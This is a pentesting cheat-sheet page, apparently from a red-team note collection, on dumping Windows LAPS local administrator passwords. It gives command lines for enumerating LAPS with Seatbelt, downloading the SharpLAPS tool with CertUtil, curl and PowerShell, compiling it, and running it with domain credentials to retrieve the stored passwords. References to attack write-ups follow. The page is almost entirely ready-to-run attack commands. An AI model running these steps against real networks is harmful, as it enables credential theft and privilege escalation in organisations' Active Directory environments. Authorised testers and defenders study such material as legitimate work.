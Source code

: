 # Binaries

## 01 - Enumerate

### 1.1 - [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Auditing Tools/Local Privilege Escalation/Offensive Tools/Binaries/Seatbelt|Seatbelt]]

```
C:\> .\Seatbelt.exe LAPS [-computername=<IP> | <computername>.<domain>.<tld>] [-username=<DOMAIN>\<username> -password=<password>]
```

## 02 - Harvest Credentials

### 2.1 - SharpLAPS

#### Setup

##### Download Pre-compiled Binary

Download the binary in command prompt.

```
C:\> CertUtil.exe -urlcache -split -f https://github.com/swisskyrepo/SharpLAPS/releases/download/latest-SharpLAPS/SharpLAPS.exe SharpLAPS.exe

C:\> curl.exe -o SharpLAPS.exe -f https://github.com/swisskyrepo/SharpLAPS/releases/download/latest-SharpLAPS/SharpLAPS.exe
```

Download the binary in PowerShell cmdlet.

```
PS C:\> Invoke-WebRequest -Uri https://github.com/swisskyrepo/SharpLAPS/releases/download/latest-SharpLAPS/SharpLAPS.exe -OutFile SharpLAPS.exe
```

##### Compile

Install a targeting pack from this [link](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481).  Then compile `ADSearch`.

```
C:\> git clone https://github.com/swisskyrepo/SharpLAPS.git

C:\> cd SharpLAPS

C:\SharpLAPS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

#### Usage

```
C:\> .\SharpLAPS.exe /user:<DOMAIN>\<username> /pass:<password> /host:<IP>
```

---
## References

### Github

- [SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)

### Hacktricks

- [Hacktricks: LAPS](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)

### ExploitDB

- [Exploit DB: Abusing LAPS](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf)